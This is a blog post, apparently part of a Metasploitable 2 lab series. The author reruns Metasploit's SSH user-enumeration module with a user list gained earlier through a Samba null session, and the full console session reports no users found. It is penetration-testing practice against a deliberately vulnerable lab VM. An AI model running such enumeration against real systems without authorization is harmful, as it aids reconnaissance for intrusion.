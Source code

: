 # SSH follow up

Since I did my last post I have been meaning to write a follow up on the failed attempt at using: `auxiliary/scanner/ssh/ssh_enumusers`.
I wanted to figure out what went wrong and if the vulnerability was even applicable. Since I have a list of all the users now I can try 
the enumeration again with the known users as the user name list.

## Another go

I managed to get a list of al the users during [this](https://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-one.html) exercise by exploiting
a null session vulnerability in Samba. I saved it to the file `users.lst` so let's launch the exploit with that file.

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set USER_FILE users.lst 
    USER_FILE => users.lst
    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    [!] 192.168.56.103:22 - SSH - User 'nobody' not found
    [!] 192.168.56.103:22 - SSH - User 'bind' not found
    [!] 192.168.56.103:22 - SSH - User 'proxy' not found
    [!] 192.168.56.103:22 - SSH - User 'syslog' not found
    [!] 192.168.56.103:22 - SSH - User 'user' not found
    [!] 192.168.56.103:22 - SSH - User 'www-data' not found
    [!] 192.168.56.103:22 - SSH - User 'root' not found
    [!] 192.168.56.103:22 - SSH - User 'news' not found
    [!] 192.168.56.103:22 - SSH - User 'postgres' not found
    [!] 192.168.56.103:22 - SSH - User 'bin' not found
    [!] 192.168.56.103:22 - SSH - User 'mail' not found
    [!] 192.168.56.103:22 - SSH - User 'distccd' not found
    [!] 192.168.56.103:22 - SSH - User 'proftpd' not found
    [!] 192.168.56.103:22 - SSH - User 'dhcp' not found
    [!] 192.168.56.103:22 - SSH - User 'daemon' not found
    [!] 192.168.56.103:22 - SSH - User 'sshd' not found
    [!] 192.168.56.103:22 - SSH - User 'man' not found
    [!] 192.168.56.103:22 - SSH - User 'lp' not found
    [!] 192.168.56.103:22 - SSH - User 'mysql' not found
    [!] 192.168.56.103:22 - SSH - User 'gnats' not found
    [!] 192.168.56.103:22 - SSH - User 'libuuid' not found
    [!] 192.168.56.103:22 - SSH - User 'backup' not found
    [!] 192.168.56.103:22 - SSH - User 'msfadmin' not found
    [!] 192.168.56.103:22 - SSH - User 'telnetd' not found
    [!] 192.168.56.103:22 - SSH - User 'sys' not found
    [!] 192.168.56.103:22 - SSH - User 'klog' not found
    [!] 192.168.56.103:22 - SSH - User 'postfix' not found
    [!] 192.168.56.103:22 - SSH - User 'service' not found
    [!] 192.168.56.103:22 - SSH - User 'list' not found
    [!] 192.168.56.103:22 - SSH - User 'irc' not found
    [!] 192.168.56.103:22 - SSH - User 'ftp' not found
    [!] 192.168.56.103:22 - SSH - User 'tomcat55' not found
    [!] 192.168.56.103:22 - SSH - User 'sync' not found
    [!] 192.168.56.103:22 - SSH - User 'uucp' not found
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
Not a single user found, but we know that all users exist! That means that this version of SSH is not actually vulnerable to this attack.
I have done some searching about this version online and it seems like it suffers from another vulnerability name [this](http://www.exploit-db.com/exploits/5720/) one on
http://www.exploit-db.com/. Who knows I might come around doing that if I get bored enough...


